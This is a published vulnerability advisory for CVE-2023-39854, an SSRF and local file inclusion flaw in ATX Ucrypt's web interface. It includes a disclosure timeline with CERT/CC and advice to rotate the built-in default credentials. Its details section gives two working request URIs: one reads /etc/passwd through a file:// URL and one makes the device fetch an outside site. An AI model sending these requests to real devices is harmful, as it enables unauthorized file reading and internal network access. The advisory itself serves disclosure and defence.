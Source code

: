 ## CVE-2023-39854



### Summary 
The web interface of ATX  Ucrypt (v3.5 and older) is vulnerable to a Server Side Request Forgery (SSRF) and Local File Inclusion (LFI) vulnerability, allowing authenticated users (or attackers using default credentials for the admin, master or user account) to access remote hosts and system files.

### Version Impacted 
ATX Ucrypt v3.5 and older

### Vulnerability Details 
An authenticated user, or an attacker using the default credentials for the admin, master or user account, can access remote web endpoints or local system files using the following URIs :
```
/hydra/view/get_cc_url?board_id=2&url=file%3A%2F%2F%2Fetc%2Fpasswd
/hydra/view/get_cc_url?board_id=1&url=https%3A%2F%2Fgoogle.com%3A443%2F
```

An example of a vulnerable host :

![2023-10-06-CVE-2023-39854-1.png](https://github.com/notnotnotveg/notnotnotveg.github.io/blob/084fb5fb9f3d7cfab9c3a349c2f7107b4534cd8c/assets/images/2023-10-06-CVE-2023-39854-1.png)

![2023-10-06-CVE-2023-39854-2.png](https://github.com/notnotnotveg/notnotnotveg.github.io/blob/084fb5fb9f3d7cfab9c3a349c2f7107b4534cd8c/assets/images/2023-10-06-CVE-2023-39854-2.png)

### Recommended Mitigations 
Multiple attempts had been made to responsibly disclose the issue to the vendor to address the root cause of this vulnerability, but no response was received.
Users are advised to audit all users of their deployment and ensure that they have rotated the default credentials for the `admin`, `master` and `user` accounts that this service has baked in.

### Disclosure Timeline 
| <!-- -->    | <!-- -->    |
|---|---|
| Jul 18, 2023 | First attempt made to contact ATX Networks on their marketing and security email. |
| Aug 15, 2023 | Second attempt made to contact ATX Networks on their marketing and security email. |
| Aug 19, 2023 | Case opened with CERT Coordination Center (CERT/CC) to assist with responsible disclosure. |
| Aug 21, 2023 | CERT/CC's time window to responsible disclosure begins (Case VU#293164). |
| Oct 05, 2023 | Two attempts made by CERT/CC in the window receive no response and 45 day window ends. |
| Oct 05, 2023 | CVE number assigned by MITRE. |
| Oct 07, 2023 | Responsible public disclosure. |
